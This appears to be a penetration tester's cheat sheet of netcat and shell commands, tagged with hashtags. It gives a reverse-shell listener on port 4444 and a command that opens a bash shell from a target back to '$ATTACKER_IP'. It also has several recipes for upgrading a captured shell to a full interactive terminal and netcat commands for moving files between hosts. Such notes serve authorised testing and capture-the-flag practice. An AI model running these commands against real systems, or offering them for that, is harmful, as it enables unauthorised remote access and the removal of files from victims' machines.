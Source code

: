 #nc #reverse #listen

Open reverse shell listener on port 4444:
----
```bash
nc -nvlp 4444
```

Beautify reverse shell:
---
#rev #shell #rev-shell #beautify #upgrade

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
press Ctrl + Z
```shell
stty raw -echo; fg
```
then
```shell
export TERM=xterm-256color
reset
alias ll='ls -lsa --color=auto'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
stty columns 157 rows 34
```
or
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
#CTRL+Z
stty raw -echo; fg
stty rows 34 columns 157;export TERM=xterm-256color;alias ll='ls -lsa --color=auto'
```
or
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
#CTRL+Z
stty raw -echo; fg
stty rows 34 columns 157;export TERM=xterm-256color;alias ll='ls -lsa --color=auto'
```
or
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
#CTRL+Z;
stty raw -echo; fg;
export SHELL=/bin/bash;export TERM=screen;stty rows 33 columns 156;reset
```
or
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
or
```shell
python -c 'import os; os.system("/bin/bash")'
```

Reverse shell from target to attacker
---
#rev-shell #rev #reverse #shell

```bash
nc -e /bin/bash $ATTACKER_IP 4444
```

Transfer file
---
#nc #file #transfer 

on receiver
```shell
nc -l -p 1234 > out.file
```
on sender
```shell
nc -w 3 $RECEIVER_IP 1234 < out.file
```
